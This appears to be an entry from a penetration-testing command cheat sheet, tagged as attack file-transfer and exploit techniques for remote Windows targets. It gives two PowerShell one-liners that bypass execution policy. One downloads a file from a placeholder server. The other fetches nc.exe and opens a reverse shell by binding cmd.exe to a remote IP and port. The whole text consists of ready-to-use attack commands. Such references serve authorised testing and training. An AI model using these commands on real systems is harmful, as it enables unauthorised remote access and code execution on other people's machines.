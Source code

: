 # powershell

% powershell, download

## Download with powershell
#platform/windows #target/remote #cat/ATTACK/FILE_TRANSFER 
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "(New-Object System.Net.WebClient).DownloadFile('http://<server>/<source_file>','<dest_file>')"
```

## Download and execute with powershell
#platform/windows #target/remote #cat/ATTACK/FILE_TRANSFER #cat/ATTACK/EXPLOIT 
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile New-Object System.Net.WebClient.DownloadFile('<url_file>','nc.exe'); nc.exe <ip> <port> -e cmd.exe
```